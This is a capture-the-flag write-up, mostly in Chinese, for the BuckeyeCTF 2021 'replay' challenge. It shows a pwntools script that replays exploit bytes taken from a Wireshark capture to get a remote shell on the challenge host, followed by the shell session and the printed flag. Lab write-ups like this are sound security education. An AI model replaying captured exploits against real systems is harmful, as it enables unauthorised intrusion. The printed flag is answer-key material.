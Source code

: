 # replay

*Somebody pwned my app! Luckily I managed to capture the network traffic of their exploit. Oh by the way, the same app is also running on `misc.chall.pwnoh.io` on port `13371`. Can you pwn it for me?*

----

使用[Wireshark](https://www.wireshark.org/download.html)分析`replay.pcap`文件,跟踪TCP流,发现似乎是发送了一些数据拿到Shell权限后,执行了一些命令.

对着“Data”右键,选择“导出分组字节流”,保存字节流数据至`a.bin`

<img src="images/replay-1.png" alt="image-20211027235735902" style="zoom:60%;" />

编写脚本,使用[pwn](https://github.com/Gallopsled/pwntools)连接服务器并发送数据,执行shell命令,找到`flag.txt`文件

```shell
╭─ ~/CTF/BuckeyeCTF2021
╰─$ python a.py
[+] Opening connection to misc.chall.pwnoh.io on port 13371: Done
[*] Switching to interactive mode
$ ls
chall
flag.txt
$ cat flag.txt
buckeye{g00d_th1ng_P1E_w4s_d1s4bl3d_0n_th3_b1n4ry}
```

代码:

```python
from pwn import *
p = remote('misc.chall.pwnoh.io', 13371)
p.recvuntil(b'TODAY', drop=True)
p.recvline()
with open('a.bin','rb') as f:
    data  = f.read()
p.send(data)
p.interactive()
p.close()
```


**flag:**`buckeye{g00d_th1ng_P1E_w4s_d1s4bl3d_0n_th3_b1n4ry}`
